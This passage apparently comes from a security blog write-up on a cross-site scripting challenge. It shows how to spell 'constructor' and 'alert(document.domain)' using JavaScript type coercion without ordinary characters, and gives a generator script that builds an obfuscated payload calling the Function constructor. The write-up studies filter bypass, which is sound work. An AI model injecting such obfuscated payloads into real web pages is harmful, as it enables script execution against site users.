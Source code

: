 In this way, the code can be executed smoothly, so the only thing left is to spell out `constructor` and `alert(document.domain)`.

## String Spelling

In addition to the article I mentioned at the beginning: [How to write console.log(1) without alphanumeric characters?](https://blog.huli.tw/2020/12/01/write-conosle-log-1-without-alphanumeric/), there are many places in the code of [jsfuck](https://github.com/aemkei/jsfuck/blob/master/jsfuck.js) that can be referenced.

Here are a few I used:

``` js
1. `${``+{}}` => "[object Object]"
2. `${``[0]}` => "undefined"
3. `${e}` => "[object HTMLProgressElement]"
4. `${0/0}` => "NaN"
```

We can find all the required characters from the above combinations. The only thing left is the last two, `()`, we must also spell them out to get them.

How to get them? If you turn a function into a string in JS, it will be the entire content of the function, like this:

``` js
`${[]['constructor']}`
=> "function Array() { [native code] }"
```

You can get these two characters `()` from here.

Combining the above techniques, I wrote a simple program to generate the final result:

``` js
const mapping = {
  a: '`${0/0}`[1]',
  c: '`${``+{}}`[5]',
  d: '`${``[0]}`[2]',
  e: '`e`',
  i: '`${``[0]}`[5]',
  l: '`${e}`[21]',
  m: '`${e}`[23]',
  n: '`${``[0]}`[1]',
  o: '`${``+{}}`[1]',
  r: '`${e}`[13]',
  s: '`${e}`[18]',
  t: '`${``+{}}`[6]',
  u: '`${``[0]}`[0]',
  ".": '`.`'
}

function getString(str) {
  return str.split('').map(c => mapping[c] || 'error:' + c).join('+')
}

const cons = getString('constructor')
mapping['('] = '`${[][' + cons + ']}`[14]'
mapping[')'] = '`${[][' + cons + ']}`[15]'

const ans = 
  "[][" + 
  getString('constructor') + 
  "]["+
  getString('constructor') +
  "]`_${" + 
  getString('alert(document.domain)') +
  "}```"
```